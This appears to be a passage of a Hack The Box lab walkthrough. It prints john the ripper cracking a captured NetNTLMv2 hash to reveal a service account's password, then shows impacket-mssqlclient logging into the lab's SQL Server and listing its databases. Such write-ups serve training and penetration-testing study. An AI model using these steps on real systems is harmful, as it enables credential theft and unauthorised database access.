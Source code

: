```c
```

Now we need to crack it using john the ripper. But firstly copy and paste the above hash into the file, for example "hash". Then start cracking it:
```c
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
princess1        (mssqlsvc)     
1g 0:00:00:00 DONE (2024-09-28 00:39) 25.00g/s 51200p/s 51200c/s 51200C/s 123456..lovers1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```
So we see that we got the password: princess1

9. Enumerate the "flagDB" database and submit a flag as your answer.

First we need to connect to MySQL via sqlcmd:
```c
sqlcmd -S 10.129.26.147 -U htbdbuser
```

Enter the password provided by the task and we are in
Next we use impacket tools to log in to mssql database using the user mssqlcvs and password princess1. It would typically be used in a penetration testing scenario to try to authenticate and interact with the SQL Server.
```c
impacket-mssqlclient -port 1433 -target-ip 10.129.26.147 mssqlsvc@10.129.26.147 -windows-auth
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WIN-02\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(WIN-02\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (WIN-02\mssqlsvc  guest@master)> 
```

We can use the following command to list the available dbs:
```c
SQL (WIN-02\mssqlsvc  guest@master)> enum_db
name      is_trustworthy_on   
-------   -----------------   
master                    0   

tempdb                    0   

model                     0   

msdb                      1   

hmaildb                   0   

flagDB                    0   
```
